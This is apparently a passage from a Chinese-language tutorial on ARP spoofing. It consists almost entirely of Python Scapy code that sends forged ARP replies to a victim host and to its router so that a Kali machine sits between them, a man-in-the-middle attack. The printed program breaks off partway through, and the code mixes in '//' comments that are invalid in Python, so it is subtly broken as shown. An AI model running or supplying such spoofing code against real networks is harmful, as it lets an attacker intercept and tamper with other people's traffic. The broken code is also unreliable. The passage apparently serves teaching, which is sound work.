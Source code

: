 arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.129"

arp_response.hwdst = "00:0C:29:BE:47:14"

arp_response.hwsrc = "00:0c:29:90:79:02"

arp_response.psrc = "192.168.74.2"

send(arp_response)

我们将创建一个类似的函数来伪造路由器：

def 欺骗路由器():

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.2" // 路由器的 IP 地址

arp_response.hwdst = "00:50:56:ff:74:8b" // 路由器的 mac 地址

arp_response.hwsrc = "00:0c:29:90:79:02" // kali 的 mac 地址

arp_response.psrc = "192.168.74.129" // 假装是设备 A 的 IP

send(arp_response)

在这个函数中，我们已经改变了 **pdst**、**hwdst** 和 **psrc** 的值。

完整的程序如下：

from scapy.all import *

def 欺骗受害者():

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.129"

arp_response.hwdst = "00:0C:29:BE:47:14"

arp_response.hwsrc = "00:0c:29:90:79:02"

arp_response.psrc = "192.168.74.2"

send(arp_response)

def 欺骗路由器():

arp_response = ARP()

arp_response.op = 2

arp_response.pdst = "192.168.74.2"

arp_response.hwdst = "00:50:56:ff:74:8b"

arp_response.hwsrc = "00:0c:29:90:79:02"
